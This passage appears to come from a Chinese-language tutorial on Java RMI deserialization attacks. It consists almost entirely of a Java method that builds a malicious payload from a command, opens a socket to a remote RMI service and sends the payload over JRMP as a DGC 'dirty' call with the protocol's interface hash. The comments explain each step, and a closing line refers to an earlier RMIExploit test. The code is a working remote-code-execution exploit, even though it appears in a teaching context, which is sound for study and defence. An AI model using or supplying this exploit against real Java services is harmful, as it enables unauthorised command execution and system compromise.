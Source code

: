 ```java
      OutputStream out = null;

      try {
         // 创建恶意的Payload对象
         Object payloadObject = RMIExploit.genPayload(command);

         // 建立和远程RMI服务的Socket连接
         socket = new Socket(host, port);
         socket.setKeepAlive(true);
         socket.setTcpNoDelay(true);

         // 获取Socket的输出流对象
         out = socket.getOutputStream();

         // 将Socket的输出流转换成DataOutputStream对象
         DataOutputStream dos = new DataOutputStream(out);

         // 创建MarshalOutputStream对象
         ObjectOutputStream baos = new MarshalOutputStream(dos);

         // 向远程RMI服务端Socket写入RMI协议并通过JRMP传输Payload序列化对象
         dos.writeInt(TransportConstants.Magic);// 魔数
         dos.writeShort(TransportConstants.Version);// 版本
         dos.writeByte(TransportConstants.SingleOpProtocol);// 协议类型
         dos.write(TransportConstants.Call);// RMI调用指令
         baos.writeLong(2); // DGC
         baos.writeInt(0);
         baos.writeLong(0);
         baos.writeShort(0);
         baos.writeInt(1); // dirty
         baos.writeLong(-669196253586618813L);// 接口Hash值

         // 写入恶意的序列化对象
         baos.writeObject(payloadObject);

         dos.flush();
      } catch (Exception e) {
         e.printStackTrace();
      } finally {
         // 关闭Socket输出流
         if (out != null) {
            out.close();
         }

         // 关闭Socket连接
         if (socket != null) {
            socket.close();
         }
      }
   }

}
```

测试流程同上面的`RMIExploit`，这里不再赘述。